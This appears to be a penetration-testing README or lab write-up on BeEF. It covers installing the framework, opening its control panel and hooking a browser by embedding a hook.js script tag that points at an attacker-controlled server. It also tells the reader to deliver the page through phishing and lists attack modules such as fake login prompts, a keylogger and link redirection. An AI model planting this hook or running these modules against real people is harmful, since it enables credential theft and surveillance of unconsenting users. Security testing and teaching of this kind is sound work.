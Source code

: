 # BeEF
**Document the steps involved in the setup and execution of BeEF and provide examples of browser-based attacks that can fie conducted using the framework**

BeEF (Browser Exploitation Framework) is an open-source penetration testing tool that focuses on web browsers. It allows security professionals to assess the security posture of a target environment by using client-side attack vectors. BeEF enables the hooking of one or more web browsers and uses them as beachheads for launching directed command modules and further attacks from within the browser context. [1]

---

 Setting Up BeEF

 Prerequisites

- A Linux-based system (e.g., Kali Linux).

- Ruby (version > 2.5).

- RubyGems.

- SQLite3.

 Installation Steps

1. Update the system:

   bash
   sudo apt update
   

2. Install BeEF and dependencies:

   bash
   sudo apt install beef-xss libsqlite3-dev -y
   

3. Install the required Ruby gem:

   bash
   gem install sqlite3
   

4. Navigate to BeEF's directory:

   bash
   cd /usr/share/beef-xss
   

5. Install necessary Ruby gems:

   bash
   bundle install
   

6. Configure BeEF (optional):

   Edit the configuration file to set custom credentials:

   ```bash
   sudo vi config.yaml
   Update the default username and password as desired.

7. *Start BeEF:*

   bash
   ./beef
   

   BeEF will start and provide URLs for the user interface and the hook script.

---

 Accessing BeEF

- *BeEF Control Panel:* Navigate to `http://127.0.0.1:3000/ui/panel` in your browser.

- *Login Credentials:* Use the default credentials (`beef`/`beef`) or the ones set during configuration.

- *Hook Script URL:* BeEF will display a hook script URL, typically `http://127.0.0.1:3000/hook.js`.

---

 Hooking a Browser

To hook a target's browser:

1. *Create a Web Page with the Hook Script:*

   Embed the hook script into a web page:

   html
   <script src="http://your_beef_server_ip:3000/hook.js"></script>
   ```

2. Deliver the Page to the Target:

   Use social engineering techniques, such as phishing emails or malicious links, to entice the target to visit the page.

3. Monitor BeEF Interface:

   Once the target accesses the page, their browser will appear as a "hooked" session in the BeEF control panel.


🛠 Demonstrating Browser-Based Attacks

After successfully hooking a browser, BeEF offers various modules to demonstrate potential vulnerabilities:

 Information Gathering

- Get Page HREFs: Retrieves all hyperlinks from the current page.
  - Get Page HTML: Fetches the entire HTML content of the page.

- Fingerprinting: Identifies browser type, version, and plugins.

 Social Engineering

- Fake Login Prompt: Displays a counterfeit login form to capture credentials.

- Alert Dialog: Shows a JavaScript alert box with a custom message.

 Exploitation

- Keylogger: Records keystrokes entered by the user.

- Redirect Browser: Forces the browser to navigate to a specified URL.

- Replace HREFs: Modifies all hyperlinks on the page to point to a malicious site. [2]

